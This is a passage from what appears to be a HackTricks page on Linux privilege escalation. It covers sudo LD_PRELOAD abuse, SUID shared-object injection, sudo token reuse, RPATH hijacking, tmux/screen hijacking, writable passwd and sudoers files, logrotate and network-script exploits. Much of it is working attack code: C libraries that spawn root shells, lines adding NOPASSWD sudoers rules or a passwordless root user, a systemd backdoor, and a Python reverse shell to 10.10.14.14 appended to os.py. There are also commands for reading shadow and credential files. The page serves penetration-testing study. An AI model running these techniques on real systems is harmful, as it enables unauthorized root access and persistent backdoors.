To avoid this mechanism being used as an attack vector for *suid/sgid* executable binaries, the loader ignores *LD_PRELOAD* if *ruid != euid*. For such binaries, only libraries in standard paths that are also *suid/sgid* will be preloaded.

If you find inside the output of **`sudo -l `** the sentence: ***env_keep+=LD_PRELOAD*** and you can call some command with sudo, you can escalate privileges.

Copy

Defaults env_keep += LD_PRELOAD
Save as **/tmp/pe.c**

Copy

193#include  <stdio.h>
194#include  <sys/types.h>
195#include  <stdlib.h>
196​
197void  _init()  {
198  unsetenv("LD_PRELOAD");
199  setgid(0);
200  setuid(0);
201  system("/bin/bash");
202}
Then **compile it** using:

Copy

203cd /tmp
204gcc -fPIC -shared -o pe.so pe.c -nostartfiles
Finally, **escalate privileges** running

Copy

sudo LD_PRELOAD=pe.so <COMMAND>  #Use any command you can run with sudo

##

SUID Binary – so injection

If you find some weird binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**. In order to do so you can execute:

Copy

strace  <SUID-BINARY> 2>&1 |  grep -i -E "open|access|no such file"

For example, if you find something like: *pen(“/home/user/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)* you can exploit it.

Create the file */home/user/.config/libcalc.c* with the code:

Copy

207#include  <stdio.h>
208#include  <stdlib.h>
209​
210static  void  inject()  __attribute__((constructor));
211​
212void  inject(){
213  system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
214}
Compile it using:

Copy

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
And execute the binary.

##

GTFOBins

​[**GTFOBins**](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit sudo mysql -e '! /bin/sh' strace -o /dev/null /bin/sh sudo awk 'BEGIN {system("/bin/sh")}'

[ GTFOBins  gtfobins.github.io](https://gtfobins.github.io/)

##

FallOfSudo

If you can access `sudo -l ` you can use the tool [**FallOfSudo**](https://github.com/Critical-Start/FallofSudo) to check if it finds how to exploit any sudo rule.

##

Reusing Sudo Tokens

In the scenario where **you have a shell as a user with sudo privileges** but you don't know the password of the user, you can **wait him to execute some command using ****`sudo `**. Then, you can **access the token of the session where sudo was used and use it to execute anything as sudo** (privilege escalation).

Requirements to escalate privileges:

- You already have a shell as user "*sampleuser*"
- "*sampleuser*" have **used ****`sudo `** to execute something in the **last 15mins** (by default that's the duration of the sudo token that allows to use `sudo ` without introducing any password)
- `cat /proc/sys/kernel/yama/ptrace_scope ` is 0
- `gdb ` is accessible (you can be able to upload it)

(You can temporarily enable `ptrace_scope ` with `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope ` or permanently modifying `/etc/sysctl.d/10-ptrace.conf ` and setting `kernel.yama.ptrace_scope = 0 `)

If all these requirements are met, **you can escalate privileges using:**  [**https://github.com/nongiach/sudo_inject**](https://github.com/nongiach/sudo_inject)​

- The **first exploit** (`exploit.sh `) will create the binary `activate_sudo_token ` in */tmp*. You can use it to **activate the sudo token in your session** (you won't get automatically a root shell, do `sudo su `):

Copy

216bash exploit.sh
217/tmp/activate_sudo_token
218sudo  su

- The **second exploit** (`exploit_v2.sh `) will create a sh shell in */tmp*  **owned by root with setuid**

Copy

219bash exploit_v2.sh
220/tmp/sh -p

- The **third exploit** (`exploit_v3.sh `) will **create a sudoers file** that makes **sudo tokens eternal and allows all users to use sudo**

Copy

221bash exploit_v3.sh
222sudo  su

##

/var/run/sudo/ts/<Username>

If you have **write permissions** in the folder or on any of the created files inside the folder you can use the binary [**write_sudo_token**](https://github.com/nongiach/sudo_inject/tree/master/extra_tools) to **create a sudo token for a user and PID**. For example if you can overwrite the file */var/run/sudo/ts/sampleuser* and you have a shell as that user with PID 1234, you can **obtain sudo privileges** without needing to know the password doing:

Copy

./write_sudo_token 1234 > /var/run/sudo/ts/sampleuser

##

/etc/sudoers, /etc/sudoers.d

The file `/etc/sudoers ` and the files inside `/etc/sudoers.d ` configure who can use `sudo ` and how. This files **by default can only be read by user root and group root**.**If** you can **read** this file you could be able to **obtain some interesting information**, and if you can **write** any file you will be able to **escalate privileges**.

Copy

224ls -l /etc/sudoers /etc/sudoers.d/
225ls -ld /etc/sudoers.d/
If you can write you can abuse this permissions

Copy

226echo  "$(whoami) ALL=(ALL) NOPASSWD: ALL"  >> /etc/sudoers
227echo  "$(whoami) ALL=(ALL) NOPASSWD: ALL"  >> /etc/sudoers.d/README
Other way to abuse these permissions:

Copy

228# makes it so every terminal can sudo
229echo  "Defaults !tty_tickets"  > /etc/sudoers.d/win
230# makes it so sudo never times out
231echo  "Defaults timestamp_timeout=-1"  >> /etc/sudoers.d/win

##

DOAS

There are some alternatives to the `sudo ` binary such as `doas ` for OpenBSD, remember to check its configuration at `/etc/doas.conf `

Copy

permit nopass demo as root cmd vim

#

Shared Library

##

ld.so

The file `/etc/ld.so.conf ` indicates **where are loaded the configurations files from**. Typically, this file contains the following path: `include /etc/ld.so.conf.d/*.conf `

That means that the configuration files from `/etc/ld.so.conf.d/*.conf ` will be read. This configuration files **points to another folders** where **libraries** are going to be **searched** for. For example, the content of `/etc/ld.so.conf.d/libc.conf ` is `/usr/local/lib `. **This means that the system will search for libraries inside ****`/usr/local/lib `**.

If for some reason **a user has write permissions** on any of the paths indicated: `/etc/ld.so.conf `, `/etc/ld.so.conf.d/ `, any file inside `/etc/ld.so.conf.d/ ` or any folder indicated inside any config file inside `/etc/ld.so.conf.d/*.conf ` he may be able to escalate privileges. Take a look about **how to exploit this misconfiguration** in the following page:

[ ld.so exploit example  /linux-unix/privilege-escalation/ld.so.conf-example](https://book.hacktricks.xyz/linux-unix/privilege-escalation/ld.so.conf-example)

##

RPATH

Copy

233level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
234 0x00000001 (NEEDED) Shared library: [libc.so.6]
235 0x0000000f (RPATH) Library rpath: [/var/tmp/flag15]
236​
237level15@nebula:/home/flag15$ ldd ./flag15
238 linux-gate.so.1 => (0x0068c000)
239 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
240 /lib/ld-linux.so.2 (0x005bb000)

By copying the lib into `/var/tmp/flag15/ ` it will be used by the program in this place as specified in the `RPATH ` variable.

Copy

241level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

242​
243level15@nebula:/home/flag15$ ldd ./flag15
244 linux-gate.so.1 => (0x005b0000)
245 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
246 /lib/ld-linux.so.2 (0x00737000)

Then create an evil library in `/var/tmp ` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6 `

Copy

247#include<stdlib.h>
248#define SHELL "/bin/sh"
249​

250int  __libc_start_main(int  (*main)  (int,  char  **,  char  **),  int argc,  char  ** ubp_av,  void  (*init)  (void),  void  (*fini)  (void),  void  (*rtld_fini)  (void),  void  (* stack_end))

251{
252  char  *file = SHELL;
253  char  *argv[]  =  {SHELL,0};
254  setresuid(geteuid(),geteuid(),  geteuid());
255  execve(file,argv,0);
256}

#

Capabilities

Linux capabilities provide a **subset of the available root privileges to a process**. This effectively breaks up root **privileges into smaller and distinctive units**. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation. Read the following page to **learn more about capabilities and how to abuse them**:

[ Linux Capabilities  /linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

#

ACLs

ACLs are a second level of discretionary permissions, that **may override the standard ugo/rwx** ones. When used correctly they can grant you a **better granularity in setting access to a file or a directory**, for example by giving or denying access to a specific user that is neither the file owner, nor in the group owner (from [**here**](https://linuxconfig.org/how-to-manage-acls-on-linux)).**Give** user "kali" read and write permissions over a file:

Copy

setfacl -m u:kali:rw file.txt
**Get** files with specific ACLs from the system:

Copy

getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null

#

Open shell sessions

In **old versions** you may **hijack** some **shell** session of a different user (**root**). In **newest versions** you will be able to **connect** to screen sessions only of **your own user**. However, you could find **interesting information inside of the session**.

##

screen sessions hijacking

**List screen sessions**

Copy

screen -ls

**Attach to a session**

Copy

260screen -dr <session>  #The -d is to detacche whoeevr is attached to it
261screen -dr 3350.foo #In the example of the image

##

tmux sessions hijacking

Apparently this was a problem with **old tmux versions**. I wasn't able to hijack a tmux (v2.1) session created by root from a non-privileged user.

**List tmux sessions**

Copy

262tmux ls

263ps aux |  grep tmux #Search for tmux consoles not using default folder for sockets

264tmux -S /tmp/dev_sess ls  #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess

**Attach to a session**

Copy

265tmux attach -t myname #If you write something in this session it will appears in the other opened one

266tmux attach -d -t myname #First detach the sessinos from the other console and then access it yourself

267tmux -S /tmp/dev_sess attach -t 0 #Attach using a non-default tmux socket
Check **valentine box from HTB** for an example.

#

SSH

##

Debian OpenSSL Predictable PRNG - CVE-2008-0166

All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected by this bug. This bug caused that when creating in those OS a new ssh key **only 32,768 variations were possible**. This means that all the possibilities can be calculated and **having the ssh public key you can search for the corresponding private key**. You can find the calculated possibilities here: https://github.com/g0tmi1k/debian-ssh​

##

SSH Interesting configuration values

- **PasswordAuthentication:** Specifies whether password authentication is allowed. The default is `no `.
- **PubkeyAuthentication:** Specifies whether public key authentication is allowed. The default is `yes `.
- **PermitEmptyPasswords**: When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is `no `.

###

PermitRootLogin

Specifies whether root can log in using ssh, default is `no `. Possible values:

- `yes ` : root can login using password and private key
- `without-password ` or `prohibit-password `: root can only login with private key
- `forced-commands-only `: Root can login only using privatekey cand if the commands options is specified
- `no ` : no

###

AuthorizedKeysFile

Specifies files that contains the public keys that can be used for user authentication. I can contains tokens like `%h ` , that will be replaced by the home directory. **You can indicate absolute paths** (starting in `/ `) or **relative paths from the users home**. For example:

Copy

AuthorizedKeysFile .ssh/authorized_keys access

That configuration will indicate that if you try to login with the **private** key ****of the user "**testusername**" ssh is going to compare the public key of your key with the ones located in `/home/testusername/.ssh/authorized_keys ` and `/home/testusername/access `

###

ForwardAgent/AllowAgentForwarding

SSH agent forwarding allows you to **use your local SSH keys instead of leaving keys** (without passphrases!) sitting on your server. So, you will be able to **jump** via ssh **to a host** and from there **jump to another** host **using** the **key** located in your **initial host**.

You need to set this option in `$HOME/.ssh.config ` like this:

Copy

269Host example.com
270 ForwardAgent yes

Notice that if `Host ` is `* ` every time the user jumps to a different machine that host will be able to access the keys (which is a security issue).

The file `/etc/ssh_config ` can **override** this **options** and allow or denied this configuration. The file `/etc/sshd_config ` can **allow** or **denied** ssh-agent forwarding with the keyword `AllowAgentForwarding ` (default is allow).

If you Forward Agent configured in an environment ****[**check here how to exploit it to escalate privileges**](ssh-forward-agent-exploitation.md).

#

Interesting Files

##

Profiles files

The file `/etc/profile ` and the files under `/etc/profile.d/ ` are **scripts that are executed when a user run a new shell**. Therefore, if you can **write or modify any of the you can escalate privileges**.

Copy

ls -l /etc/profile /etc/profile.d/

If any weird profile script is found you should check it for **sensitive details**.

##

Passwd/Shadow Files

Depending on the OS the `/etc/passwd ` and `/etc/shadow ` files may be using a different name or there may be a backup. Therefore it's recommended **find all of hem** and **check if you can read** them and **check if there are hashes** inside the files:

Copy

272#Passwd equivalent files
273cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
274#Shadow equivalent files

275cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null

In some occasions you can find **password hashes** inside the `/etc/passwd ` (or equivalent) file

Copy

grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null

###

Writable /etc/passwd

First generate a password with one of the following commands.

Copy

277openssl passwd -1 -salt hacker hacker
278mkpasswd -m SHA-512 hacker
279python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
Then add the user `hacker ` and add the generated password.

Copy

hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash `
You can now use the `su ` command with `hacker:hacker `

Alternatively you can use the following lines to add a dummy user without a password. WARNING: you might degrade the current security of the machine.

Copy

281echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
282su - dummy

NOTE: In BSD platforms `/etc/passwd ` is located at `/etc/pwd.db ` and `/etc/master.passwd `, also the `/etc/shadow ` is renamed to `/etc/spwd.db `.

You should check if you can **write in some sensitive file**. For example, can you write to some **service configuration file**?

Copy

283find / '(' -type f -or -type d ')'  '('  '(' -user $USER  ')' -or '(' -perm -o=w ')'  ')' 2>/dev/null |  grep -v '/proc/'  |  grep -v $HOME  |  sort  |  uniq  #Find files owned by the user or writable by anybody

284for g in  `groups`;  do  find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null |  grep -v '/proc/'  |  grep -v $HOME;  done  #Find files writable by any group of the user

For example, if the machine is running a **tomcat** server and you can **modify the Tomcat service configuration file inside /etc/systemd/,** then you can modify the lines:

Copy

285ExecStart=/path/to/backdoor
286User=root
287Group=root
Your backdoor will be executed the next time that tomcat is started.

##

Check Folders

The following folders may contain backups or interesting information: **/tmp**, **/var/tmp**, **/var/backups, /var/mail, /var/spool/mail, /etc/exports, /root** (Probably you won't be able to read the last one but try)

Copy

ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root

##

Weird Location/Owned files

Copy

289#root owned files in /home folders
290find /home -user root 2>/dev/null
291#Files owned by other users in folders owned by me

292for d in  `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`;  do  find  $d  ! -user `whoami` -exec ls -l {} \; 2>/dev/null;  done

293#Files owned by root, readable by me but no world readable
294find / -type f -user root ! -perm -o=r 2>/dev/null
295#Files owned by me or world writable

296find / '(' -type f -or -type d ')'  '('  '(' -user $USER  ')' -or '(' -perm -o=w ')'  ')'  ! -path "/proc/*"  ! -path "/sys/*"  ! -path "$HOME/*" 2>/dev/null

297#Writable files by each group I belong to
298for g in  `groups`;
299  do  printf  " Group $g:\n";

300  find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*"  ! -path "/sys/*"  ! -path "$HOME/*" 2>/dev/null

301  done
302done

##

Modified files in last mins

Copy

find / -type f -mmin -5 ! -path "/proc/*"  ! -path "/sys/*"  ! -path "/run/*"  ! -path "/dev/*"  ! -path "/var/lib/*" 2>/dev/null

##

Sqlite DB files

Copy

find / -name '*.db' -o -name '*.sqlite' -o -name '*.sqlite3' 2>/dev/null

##

*_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .git-credentials, .rhosts, hosts.equiv, Dockerfile, docker-compose.yml files

Copy

fils=`find / -type f \( -name "*_history" -o -name ".sudo_as_admin_successful" -o -name ".profile" -o -name "*bashrc" -o -name "httpd.conf" -o -name "*.plan" -o -name ".htpasswd" -o -name ".git-credentials" -o -name "*.rhosts" -o -name "hosts.equiv" -o -name "Dockerfile" -o -name "docker-compose.yml" \) 2>/dev/null`Hidden files

##

Hidden files

Copy

find / -type f -iname ".*" -ls 2>/dev/null

##

**Script/Binaries in PATH**

Copy

307for d in  `echo $PATH |  tr  ":"  "\n"`;  do  find  $d -name "*.sh" 2>/dev/null;  done

308for d in  `echo $PATH |  tr  ":"  "\n"`;  do  find  $d -type -f -executable 2>/dev/null;  done

##

**Web files**

Copy

309ls -alhR /var/www/ 2>/dev/null
310ls -alhR /srv/www/htdocs/ 2>/dev/null
311ls -alhR /usr/local/www/apache22/data/
312ls -alhR /opt/lampp/htdocs/ 2>/dev/null

##

**Backups**

Copy

find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/nulll

##

Known files containing passwords

Read the code of [**linPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), it searches for **several possible files that could contain passwords**.**Other interesting tool** that you can use to do so is: [**LaZagne**](https://github.com/AlessandroZ/LaZagne)****

##

Generic Creds Search/Regex

You should also check for files containing the word "**password**" in it's **name** or inside the **content**, also check for IPs and emails inside logs, or hashes regexps. I'm not going to list here how to do all of this but if you are interested you can check the last checks that [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) perform.

#

Writable files

##

Python library hijacking

If you know from **where** a python script is going to be executed and you **can write inside** that folder or you can **modify python libraries**, you can modify the os library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To **backdoor the library** just add at the end of the os.py library the following line (change IP and PORT):

Copy

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

##

Logrotate exploitation

There is a vulnerability on `logrotate `that allows a user with **write permissions over a log file** or **any** of its **parent directories** to make `logrotate `write **a file in any location**. If **logrotate** is being executed by **root**, then the user will be able to write any file in ***/etc/bash_completion.d/*** that will be executed by any user that login. So, if you have **write perms** over a **log file**  **or** any of its **parent folder**, you can **privesc** (on most linux distributions, logrotate is executed automatically once a day as **user root**). Also, check if apart of */var/log* there are more files being **rotated**.

%3b' data-evernote-id='10554'%3e%3cg data-evernote-id='10555' class='js-evernote-checked'%3e%3cpath d='M12.2 8.98c.06-.01.12-.03.18-.06.06-.02.12-.05.18-.09l.15-.12c.18-.19.29-.45.29-.71 0-.06-.01-.13-.02-.19a.603.603 0 0 0-.06-.19.757.757 0 0 0-.09-.18c-.03-.05-.08-.1-.12-.15-.28-.27-.72-.37-1.09-.21-.13.05-.23.12-.33.21-.04.05-.09.1-.12.15-.04.06-.07.12-.09.18-.03.06-.05.12-.06.19-.01.06-.02.13-.02.19 0 .26.11.52.29.71.1.09.2.16.33.21.12.05.25.08.38.08.06 0 .13-.01.2-.02M13 16v-4a1 1 0 1 0-2 0v4a1 1 0 1 0 2 0M12 3c-4.962 0-9 4.038-9 9 0 4.963 4.038 9 9 9 4.963 0 9-4.037 9-9 0-4.962-4.037-9-9-9m0 20C5.935 23 1 18.065 1 12S5.935 1 12 1c6.066 0 11 4.935 11 11s-4.934 11-11 11' fill-rule='evenodd' data-evernote-id='10556' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)

This vulnerability affects `logrotate ` version `3.15.1 ` and below

More detailed information about the vulnerability can be found in this page: https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition.

You can exploit this vulnerability with [**logrotten**](https://github.com/whotwagner/logrotten).

This vulnerability is very similar to [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/)  **(nginx logs),** so whenever you find that you can alter logs, check who is managing those logs and check if you can escalate privileges substituting the logs by symlinks.

##

/etc/sysconfig/network-scripts/ (Centos/Redhat)

If, for whatever reason, a user is able to **write** an `ifcf-<whatever> ` script to */etc/sysconfig/network-scripts*  **or** it can **adjust** an existing one, then your **system is pwned**.

Network scripts, *ifcg-eth0* for example are used for network connections. The look exactly like .INI files. However, they are ~sourced~ on Linux by Network Manager (dispatcher.d).

In my case, the `NAME= ` attributed in these network scripts is not handled correctly. If you have **white/blank space in the name the system tries to execute the part after the white/blank space**. Which means; **everything after the first blank space is executed as root**.

For example: */etc/sysconfig/network-scripts/ifcfg-1337*

Copy

315NAME=Network /bin/id
316ONBOOT=yes
317DEVICE=eth0
(*Note the black space between Network and /bin/id*)

**Vulnerability reference:**  [**https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f**](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)****

##

**init, init.d, systemd, and rc.d**

`/etc/init.d ` contains **scripts** used by the System V init tools (SysVinit). This is the **traditional service management package for Linux**, containing the `init ` program (the first process that is run when the kernel has finished initializing¹) as well as some infrastructure to start and stop services and configure them. Specifically, files in `/etc/init.d ` are shell scripts that respond to `start `, `stop `, `restart `, and (when supported) `reload ` commands to manage a particular service. These scripts can be invoked directly or (most commonly) via some other trigger (typically the presence of a symbolic link in `/etc/rc?.d/ `). (From [here](https://askubuntu.com/questions/5039/what-is-the-difference-between-etc-init-and-etc-init-d#:~:text=%2Fetc%2Finit%20contains%20configuration%20files,the%20status%20of%20a%20service.)) Other alternative to this folder is `/etc/rc.d/init.d ` in Redhat

`/etc/init ` contains **configuration** files used by **Upstart**. Upstart is a young **service management package** championed by Ubuntu. Files in `/etc/init ` are configuration files telling Upstart how and when to `start `, `stop `, `reload ` the configuration, or query the `status ` of a service. As of lucid, Ubuntu is transitioning from SysVinit to Upstart, which explains why many services come with SysVinit scripts even though Upstart configuration files are preferred. In fact, the SysVinit scripts are processed by a compatibility layer in Upstart. (From [here](https://askubuntu.com/questions/5039/what-is-the-difference-between-etc-init-and-etc-init-d#:~:text=%2Fetc%2Finit%20contains%20configuration%20files,the%20status%20of%20a%20service.))

**systemd** is a **Linux initialization system and service manager that includes features like on-demand starting of daemons**, mount and automount point maintenance, snapshot support, and processes tracking using Linux control groups. systemd provides a logging daemon and other tools and utilities to help with common system administration tasks. (From [here](https://www.linode.com/docs/quick-answers/linux-essentials/what-is-systemd/#:~:text=The%20%2Frun%2Fsystemd%2Fsystem,anywhere%20else%20in%20the%20system.)) Files that ships in packages downloaded from distribution repository go into `/usr/lib/systemd/ `. Modifications done by system administrator (user) go into `/etc/systemd/system/ `.

#

Other Tricks

##

NFS Privilege escalation

[ NFS no_root_squash/no_all_squash misconfiguration PE  /linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

##

Escaping from restricted Shells

[ Escaping from restricted shells - Jails  /linux-unix/privilege-escalation/escaping-from-limited-bash](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash)

##

Cisco - vmanage

[ Cisco - vmanage  /linux-unix/privilege-escalation/cisco-vmanage](https://book.hacktricks.xyz/linux-unix/privilege-escalation/cisco-vmanage)

#

More help

​[Static impacket binaries](https://github.com/ropnop/impacket_static_binaries)​

#

Linux/Unix Privesc Tools

###

**Best tool to look for Linux local privilege escalation vectors:**  [**LinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)****

**LinEnum**: https://github.com/rebootuser/LinEnum(-t option)**Unix Privesc Check:**  http://pentestmonkey.net/tools/audit/unix-privesc-check**Linux Priv Checker:**  [www.securitysift.com/download/linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py)**BeeRoot:**  https://github.com/AlessandroZ/BeRoot/tree/master/Linux**Kernelpop:** Enumerate kernel vulns ins linux and MAC https://github.com/spencerdodd/kernelpop**Mestaploit:**  ***multi/recon/local_exploit_suggester*****Linux Exploit Suggester:**  https://github.com/mzet-/linux-exploit-suggester**EvilAbigail (physical access):**  https://github.com/GDSSecurity/EvilAbigail**Recopilation of more scripts**: https://gh-dark.rauchg.now.sh/1N3/PrivEsc/tree/master/linux​

##

Bibliography

​https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/https://payatu.com/guide-linux-privilege-escalation/https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744http://0x90909090.blogspot.com/2015/07/no-one-expect-command-execution.htmlhttps://touhidshaikh.com/blog/?p=827https://github.com/sagishahar/lpeworkshop/blob/master/Lab%20Exercises%20Walkthrough%20-%20Linux.pdfhttps://github.com/frizb/Linux-Privilege-Escalationhttps://github.com/lucyoa/kernel-exploitshttps://github.com/rtcrowley/linux-private-i​

[ Linux/Unix - Previous Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)[ Next  Escaping from a Docker container   ](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container)

CPol
Last updated 2 days ago
Was this page helpful?

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='11145'%3e%3cg data-evernote-id='11146' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.993.993 0 0 0 .006-1.396 1.007 1.007 0 0 0-1.408-.03C8.273 7.312 7.519 8 6 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C2.425 8.839 3.653 10 6 10c2.347 0 3.575-1.161 3.707-1.293m12 0a.993.993 0 0 0 .006-1.396 1.006 1.006 0 0 0-1.408-.03C20.273 7.312 19.519 8 18 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C14.425 8.839 15.653 10 18 10c2.347 0 3.575-1.161 3.707-1.293M21.001 19a1 1 0 0 1-.896-.553C20.036 18.314 18.225 15 12 15c-6.225 0-8.036 3.314-8.11 3.456a1.002 1.002 0 0 1-1.344.43.997.997 0 0 1-.441-1.333C2.198 17.367 4.469 13 12 13s9.802 4.367 9.895 4.553A1.001 1.001 0 0 1 21.001 19' fill-rule='evenodd' data-evernote-id='11147' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='11153'%3e%3cg data-evernote-id='11154' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.999.999 0 0 0 0-1.414C9.575 7.161 8.347 6 6 6 3.653 6 2.425 7.161 2.293 7.293a.992.992 0 0 0-.005 1.396 1.007 1.007 0 0 0 1.408.029C3.727 8.689 4.481 8 6 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0m12 0a.999.999 0 0 0 0-1.414C21.575 7.161 20.347 6 18 6c-2.347 0-3.575 1.161-3.707 1.293a.992.992 0 0 0-.005 1.396 1.006 1.006 0 0 0 1.407.029C15.727 8.689 16.481 8 18 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0M12 19c-7.53 0-9.8-4.367-9.894-4.553a1.001 1.001 0 0 1 1.786-.902C3.974 13.704 5.792 17 12 17c6.226 0 8.037-3.314 8.111-3.456a1.007 1.007 0 0 1 1.344-.43.998.998 0 0 1 .441 1.333C21.802 14.633 19.531 19 12 19' fill-rule='evenodd' data-evernote-id='11155' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)